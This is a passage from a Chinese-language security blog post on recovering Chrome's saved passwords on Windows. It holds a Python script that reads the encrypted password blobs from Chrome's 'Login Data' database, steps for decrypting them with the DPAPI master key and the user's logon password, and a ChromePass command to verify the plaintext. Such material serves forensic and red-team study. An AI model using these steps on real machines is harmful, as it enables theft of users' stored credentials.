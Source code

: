 ![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2018-1-26/3-1.png)

使用python脚本对其读取并保存到文件中，代码如下：

```
from os import getenv
import sqlite3
import binascii
conn = sqlite3.connect("Login Data")
cursor = conn.cursor()
cursor.execute('SELECT action_url, username_value, password_value FROM logins')
for result in cursor.fetchall():
    print (binascii.b2a_hex(result[2]))
    f = open('test.txt', 'wb')
    f.write(result[2])
    f.close()
```

### 2、解密Master Key获得明文

使用工具Windows Password Recovery，下载地址：

https://www.passcape.com/index.php?section=downloads&category=28

选择`Utils` -> `DPAPI Decoder and Analyser` -> `Decrypt DPAPI data blob`


设置DPAPI blob file指向保存DPAPI blob的文件test.txt，如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2018-1-26/3-2.png)


设置Master Key file指向待破解的Master Key file，如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2018-1-26/3-3.png)

接下来输入用户登录密码

获得明文，如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2018-1-26/3-4.png)

成功解密

使用ChromePass对结果进行验证

ChromePass下载地址：

http://www.nirsoft.net/utils/chromepass.html

参数说明：

```
/external <User Profile Path> <Last Log-On Password>
```

命令如下：

```
ChromePass.exe /external c:\1\2\3\ test123 
```
